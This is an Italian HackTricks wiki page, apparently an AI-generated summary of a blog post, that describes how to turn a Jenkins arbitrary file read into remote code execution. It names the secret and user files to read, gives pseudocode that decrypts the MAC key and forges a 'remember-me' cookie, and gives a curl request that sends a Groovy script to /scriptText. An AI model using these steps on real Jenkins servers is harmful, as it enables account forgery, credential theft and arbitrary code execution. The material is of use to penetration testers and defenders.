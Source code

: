 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In questo post del blog è possibile trovare un ottimo modo per trasformare una vulnerabilità di Local File Inclusion in Jenkins in RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Questo è un riassunto creato dall'AI della parte del post in cui l'artefatto di un cookie arbitrario viene abusato per ottenere RCE abusando di una lettura di file locale fino a quando non ho tempo per creare un riassunto da solo:

### Requisiti per l'attacco

* **Requisito di funzionalità:** "Ricordami" deve essere abilitato (impostazione predefinita).
* **Livelli di accesso:** L'attaccante ha bisogno di permessi Generali/Di lettura.
* **Accesso segreto:** Capacità di leggere sia contenuti binari che testuali da file chiave.

### Processo di sfruttamento dettagliato

#### Passo 1: Raccolta dati

**Recupero delle informazioni utente**

* Accedere alla configurazione utente e ai segreti da `$JENKINS_HOME/users/*.xml` per ciascun utente per raccogliere:
* **Nome utente**
* **Seed utente**
* **Timestamp**
* **Hash della password**

**Estrazione della chiave segreta**

* Estrarre le chiavi crittografiche utilizzate per firmare il cookie:
* **Chiave segreta:** `$JENKINS_HOME/secret.key`
* **Chiave master:** `$JENKINS_HOME/secrets/master.key`
* **File chiave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Passo 2: Forgiatura del cookie

**Preparazione del token**

*   **Calcolare il tempo di scadenza del token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Aggiunge un'ora all'ora attuale
```
{% endcode %}
*   **Concatenare i dati per il token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Decrittazione della chiave MAC**

*   **Decrittare il file chiave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertire la chiave master nel formato chiave AES128
decrypted = AES.decrypt(macFile, key)  // Decrittare il file .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcolo della firma**

*   **Calcolare HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcolare HMAC utilizzando il token e la chiave MAC
tokenSignature = bytesToHexString(mac)  // Convertire il MAC in una stringa esadecimale
```

**Codifica del cookie**

*   **Generare il cookie finale:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificare in Base64 i dati del cookie
```
{% endcode %}

#### Passo 3: Esecuzione del codice

**Autenticazione della sessione**

* **Recuperare i token CSRF e di sessione:**
* Effettuare una richiesta a `/crumbIssuer/api/json` per ottenere `Jenkins-Crumb`.
* Catturare `JSESSIONID` dalla risposta, che sarà utilizzato insieme al cookie "remember-me".

**Richiesta di esecuzione del comando**

*   **Inviare una richiesta POST con uno script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Lo script Groovy può essere utilizzato per eseguire comandi a livello di sistema o altre operazioni all'interno dell'ambiente Jenkins.

L'esempio di comando curl fornito dimostra come effettuare una richiesta a Jenkins con le intestazioni e i cookie necessari per eseguire codice arbitrario in modo sicuro.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
